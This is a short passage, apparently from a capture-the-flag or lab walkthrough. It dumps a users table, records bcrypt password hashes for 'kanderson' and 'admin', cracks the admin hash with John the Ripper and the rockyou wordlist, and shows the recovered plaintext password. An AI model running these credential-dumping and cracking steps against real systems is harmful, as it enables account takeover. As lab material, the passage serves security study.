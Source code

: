 ![](./IMG/44.png)
- Query users table 
```
SELECT * FROM users;
```

![](./IMG/46.png)
- Record above password, save it as a file seperatly
```
kanderson / $2a$10$E/Vcd9ecflmPudWeLSEIv.cvK6QjxjWlWXpij1NVNV3Mm6eH58zim
admin / $2a$10$SpKYdHLB0FOaT7n3x72wtuS0yR8UqqbNNpIPjUb2MZib3H9kVO8dm
```
![](./IMG/47.png)
- Crack the password by john&Ripper
```
john --wordlist=/usr/share/wordlists/rockyou.txt admin.hash
```

```
admin / manchesterunited
```
